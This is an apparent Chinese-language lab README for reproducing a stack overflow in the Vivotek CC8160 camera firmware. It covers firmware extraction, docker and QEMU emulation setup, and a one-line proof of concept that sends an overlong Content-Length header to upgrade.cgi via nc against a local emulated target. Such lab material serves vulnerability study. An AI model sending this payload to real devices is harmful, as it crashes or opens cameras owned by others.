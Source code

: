 # Vivotek CC8160 栈溢出漏洞


## 漏洞环境

使用 `firmianay/binwalk` 解压固件：

```sh
$ docker run --rm -v $PWD/firmware/:/root/firmware firmianay/binwalk -Mer "/root/firmware/CC8160-VVTK-0100d.flash.pkg"
```

### 用户级模拟 - 快速验证

手动构建：

```sh
# 构建漏洞环境
$ docker-compose -f docker-compose-user.yml build

# 后台启动环境
$ docker-compose -f docker-compose-user.yml up
```

直接拉取：

```sh
# 拉取漏洞环境并启动
$ docker pull firmianay/vivotek:remote_stack_overflow-user
$ docker run --rm --privileged -p 8888:80 -it vivotek:remote_stack_overflow-user
```

### 系统级模拟 - 动态调试

手动构建，解包过程同上。如果想要动态调试，还需要编译对应的 armel gdbserver 并复制到 system-emu/tools 目录。

```sh
# cp baseImage/gdbserver/7.11.1/armel-gdbserver-7.11.1 CVE-2020-3331/system-emu/tools/gdbserver

# 先构建漏洞环境 qemu-system:arm 环境
$ cd baseImage/qemu-system/armel
$ docker build -t qemu-system:armel .

# 再构建漏洞环境
$ docker-compose -f docker-compose-system.yml build

# 启动环境
$ docker-compose -f docker-compose-system.yml up
# 等待启动完成，重新开启一个窗口做后续操作
$ docker exec -it vivotek-system /bin/bash
$ ssh root@192.168.2.2
```

直接拉取：

```sh
$ docker pull firmianay/vivotek:remote_stack_overflow-system
$ docker run --rm --privileged -it vivotek:remote_stack_overflow-system
```

## 漏洞复现

```sh
echo -en "POST /cgi-bin/admin/upgrade.cgi\r\nHTTP/1.0\nContent-Length:AAAAAAAAAAAAAAAAAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIXXXX\n\r\n\r\n"  | nc -v 127.0.0.1 8888
```

![img](./crash.png)


## 参考链接

- https://www.exploit-db.com/exploits/44001
- https://xz.aliyun.com/t/5054
- https://www.anquanke.com/post/id/185336
- https://paper.seebug.org/480/
